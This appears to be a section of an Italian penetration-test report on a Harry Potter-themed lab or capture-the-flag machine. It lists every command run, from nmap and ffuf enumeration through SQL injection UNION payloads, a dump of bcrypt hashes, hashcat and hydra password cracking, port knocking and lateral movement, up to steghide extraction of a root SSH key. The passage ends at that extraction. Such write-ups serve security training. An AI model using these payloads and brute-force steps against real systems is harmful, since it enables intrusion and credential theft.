Sezione 05
Processo Operativo Completo
Approccio Metodologico
Metodologia applicata: PTES (Penetration Testing Execution Standard) con elementi di Cyber Kill Chain e OWASP Testing Guide v4.2 per il layer web. Framework di mapping: MITRE ATT&CK v14. Di seguito il processo operativo completo, fase per fase, con comandi eseguiti, risultati ottenuti ed evidenze.
FASE 1 — Ricognizione & Enumerazione
1.1 Identificazione Host (netdiscover)
L'attività ha avuto inizio con l'identificazione degli host attivi all'interno del segmento di rete locale tramite richieste ARP.
$ sudo netdiscover -r 192.168.0.0/24
Risultato: individuato l'host target all'indirizzo IP 192.168.0.10, identificato come macchina virtuale Oracle VirtualBox (MAC: 08:00:27:72:5E:0F).

Evidence · Fase 1.1
Output netdiscover — Host Discovery
1.2 Analisi Nmap (SYN Stealth Scan)
Scansione approfondita con rilevamento OS (-O) e versioni servizi (-sV).
$ nmap -sS -sV -O -T3 192.168.0.10
Porte aperte rilevate:
| Porta | Stato | Servizio | Versione / Note |
|---|
| 21/tcp | open | FTP | Synology DiskStation NAS ftpd (genera RST) |
| 80/tcp | open | HTTP | Apache httpd 2.4.52 (Ubuntu) |
| 1723/tcp | open | PPTP | Protocollo di tunneling VPN |
| 2222/tcp | open | SSH | OpenSSH 8.9p1 Ubuntu (porta non standard) |
| 8080/tcp | open | HTTP | Servizio alternativo (tcpwrapped) |
Anomalia Porta 21: Nmap segnala pacchetti RST — indica possibile firewall, IPS o configurazione honeypot.
SSH su porta 2222: Misura di Security through Obscurity. OS: Linux Kernel 4.x/5.x (Ubuntu).

Evidence · Fase 1.2
Output Nmap — SYN Scan + OS Detection
FASE 2 — Web Enumeration & Information Gathering
2.1 Directory Brute-Forcing (ffuf)
Con la porta 80 aperta, l'analisi si è spostata sull'identificazione di file e directory nascoste.
$ ffuf -u http://192.168.0.10/FUZZ \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-c -ic -fc 403,404 -e .txt,.php,.html,.key,.js
Struttura rilevata:
/welcome.php — pagina con indizio a "bella vista"/images/ — asset grafici (theta-logo.jpg)/tmp/ — directory con contenuto Brainfuck/oldsite/ — versione precedente del sito/oldsite/tmp/, /oldsite/images/, /oldsite/login.php

Evidence · Fase 2.1
ffuf — Directory Enumeration Results
2.2 Analisi dei Sorgenti e Decodifica (Brainfuck)
Attraverso l'ispezione del codice sorgente (view-source) e l'analisi delle directory /tmp, sono stati rinvenuti diversi frammenti di codice offuscati in linguaggio Brainfuck. La loro decodifica ha permesso di ricostruire una mappatura tra numeri di porta e parole chiave, essenziale per la logica di Port Knocking.
| Porta | Parola | Sorgente / Posizione |
|---|
| 9220 | giuro | Parametro XSS ?xss= |
| 12000 | il | Sorgente /oldsite/login.php |
| 9991 | di | Sorgente /login.php |
| 55677 | non avere | CSS Editor /login.php |
| 37789 | buone | CSS Editor /oldsite/login.php |
| 7282 | intenzioni | Directory /tmp/ |
| 41002 | misfatto | Directory /oldsite/tmp/ |
| 65511 | fatto | Directory /welcome.php |

Evidence · Fase 2.2
Brainfuck — Frammenti sorgente e decodifica pt1

Evidence · Fase 2.2
Brainfuck — Frammenti sorgente e decodifica pt2
2.3 Analisi Steganografica (theta-logo.jpg)
L'asset grafico theta-logo.jpg è stato analizzato per verificare la presenza di dati nascosti. La passphrase, dedotta dal contesto narrativo Harry Potter, è stata accio.
$ steghide extract -sf theta-logo.jpg -p accio
Risultato: estrazione del file poesia.txt contenente una poesia con riferimenti a "22 o 2222", confermando l'importanza dei servizi SSH e web rilevati.

Evidence · Fase 2.3
Steganografia — Estrazione poesia.txt pt1

Evidence · Fase 2.3
Steganografia — Estrazione poesia.txt pt2
FASE 3 — Vulnerability Assessment: SQL Injection
3.1 Identificazione della Vulnerabilità
I test di input sui form di login hanno rivelato una gestione non sicura delle query al database. L'inserimento del payload classico ' OR 'a'='a ha generato un errore fatale nel backend del sito old, confermando la possibilità di manipolare la query SQL originale. Il sistema è stato identificato come basato su MariaDB.

Evidence · Fase 3.1
Errore SQL rivelatore su /oldsite/login.php
3.2 Sfruttamento (Union-Based SQLi)
È stata utilizzata una tecnica di Union-Based SQL Injection per esfiltrare dati dal database attraverso il form di login. La tecnica di inversione delle colonne è risultata efficace per allineare i tipi di dati.
' UNION SELECT database(),2#
3.3 Esfiltrazione dei Dati (Data Dumping)
Attraverso una serie di query mirate, è stata ricostruita l'intera struttura del database:
' UNION SELECT group_concat(table_name),2
FROM information_schema.tables
WHERE table_schema=database()#
' UNION SELECT group_concat(column_name),2
FROM information_schema.columns
WHERE table_name='users'#
' UNION SELECT group_concat(username,':',password),2
FROM users#
Risultati dell'estrazione:
| Utente | Hash (BCrypt $2y$10) |
|---|
| anna | $2y$10$Dy2MtfKLFvH78.bLGp6a7uBdSE1WNCSbnT0HvAQLyT2iGZWGO7TMK |
| luca | $2y$10$lNS1EUevEtLqsp.OEq4UkuGREzvkouhZCdpT9h5t.Fw6oBZsai.Ei |
| marco | $2y$10$gdY5a.GIC6ulg7ybIBMh0OU7Cdo.pEebWsL7E/CLGFHoTG39LePAK |
| milena | $2y$10$3ESgP8ETH4VPpbsw4C5hze6bP6QEDMByxelQEPUdh7Uh6Q6aHRZDy |

Evidence · Fase 3.3
SQL Injection — Dump completo credenziali
3.4 Cracking delle Password (Hashcat)
Gli hash estratti appartengono alla famiglia BCrypt (costo 10). È stato utilizzato Hashcat con la wordlist rockyou.txt.
$ hashcat -m 3200 DumpMilena /usr/share/wordlists/rockyou.txt
Risultato: milena:darkprincess — craccata con successo. La password era nelle prime migliaia di rockyou.txt.

Evidence · Fase 3.4
Hashcat — Cracking BCrypt milena:darkprincess
FASE 4 — Autenticazione, Port Knocking & Foothold
4.1 Triggering dei Messaggi di Sistema
L'inserimento delle frasi rituali decodificate nei form di login ha attivato risposte dinamiche con indizi cruciali:
Sito Standard (/login.php):
Input: giuro solennemente di non avere buone intenzioni
Risposta: "Caro user, la Mappa del Malandrino nasconde un altro segreto. Hai provato a bussare?"
Analisi: il riferimento al "bussare" conferma il meccanismo di Port Knocking.
Sito Old (/oldsite/login.php):
Input: fatto il misfatto
Risposta: "Attenzione! La bacchetta di Milena ha reagito in modo strano vicino al libro di incantesimi di Luca..."
Analisi: suggerisce un account di sistema (user) non presente nel dump SQL.

Evidence · Fase 4.1
Messaggi rituali — Risposte dei form di login /oldsite
4.2 Brute-Force SSH e Foothold
L'analisi degli indizi ha portato all'ipotesi di un utente user di sistema. Testato con Hydra contro SSH sulla porta 2222:
$ hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://192.168.0.10:2222
Risultato: user:harry — credenziali valide. Foothold ottenuto.
$ ssh user@192.168.0.10 -p 2222

Evidence · Fase 4.2
Hydra — Brute-force SSH user:harry

Evidence · Fase 4.2
Login SSH come user

Evidence · Fase 4.2
Ricerca 1700 - Solennemente
FASE 5 — Post-Exploitation: Port Knocking & Lateral Movement
5.1 Completamento della Sequenza Port Knocking
Durante la sessione SSH come user, l'esplorazione del file system ha confermato il numero 1700 associato alla parola solennemente. La sequenza definitiva è stata ricostruita:
| # | Porta | Parola |
|---|
| 1 | 9220 | Giuro |
| 2 | 1700 | Solennemente |
| 3 | 9991 | Di |
| 4 | 55677 | Non avere |
| 5 | 37789 | Buone |
| 6 | 7282 | Intenzioni |
5.2 Esecuzione del Port Knocking
$ knock -v 192.168.0.10 9220 1700 9991 55677 37789 7282
5.3 Verifica Apertura Porta 22
$ nmap -sV -sC -p 22 192.168.0.10
Risultato: 22/tcp OPEN — SSH standard ora accessibile.

Evidence · Fase 5.2–5.3
Port Knocking — Sequenza knock + nmap porta 22 OPEN
5.4 Movimento Laterale: Accesso come Milena
Con la porta 22 aperta e le credenziali craccate, accesso eseguito come milena:darkprincess.
5.5 Scoperta Directory Condivisa e Swap File
Esplorazione del file system come milena ha rivelato la directory /home/shared con il file .myLovePotion.swp — un file di swap di Vim contenente stringhe ad alta entropia:

Evidence · Fase 5.4
Accesso come milena e movimento laterale pt1

Evidence · Fase 5.4
Accesso come milena e movimento laterale pt2
| Stringa Estratta | Destinazione Probabile |
|---|
| ai(q4P7>(Fw9S3P | Password utente (Luca/Anna) |
| 9iT(0F98!7^-I&h | Password utente (Luca/Anna) |
5.6 Movimento Laterale: Accesso a Luca e Marco
Tramite su (Switch User), le credenziali sono state testate con successo:
- Marco: accesso eseguito — nessun file di interesse nella home
- Luca: accesso eseguito — flag utente acquisita + file sospetto
.theta-key.jpg.bk individuato

Evidence · Fase 5.5
Lateral Movement — milena, swap file, su luca
FASE 6 — Esfiltrazione & Steganografia Avanzata
6.1 Esfiltrazione theta-key.jpg
Il file .theta-key.jpg.bk nella home di Luca aveva permessi restrittivi. Il blocco è stato aggirato sfruttando i permessi del gruppo shared, spostando una copia nella directory condivisa.
$ scp -P 2222 milena@192.168.0.10:/home/shared/scambio.jpg \
~/Downloads/HarryPotter/theta-key.jpg
6.2 Estrazione della Chiave Privata RSA
Sulla macchina Kali, l'immagine è stata sottoposta ad analisi steganografica utilizzando la passphrase recuperata dal file di swap.
$ steghide extract -sf theta-key.jpg -p "ai(q4P7>(Fw9S3P"
Risultato critico: estrazione del file id_rsa — una chiave privata SSH per l'utente root.
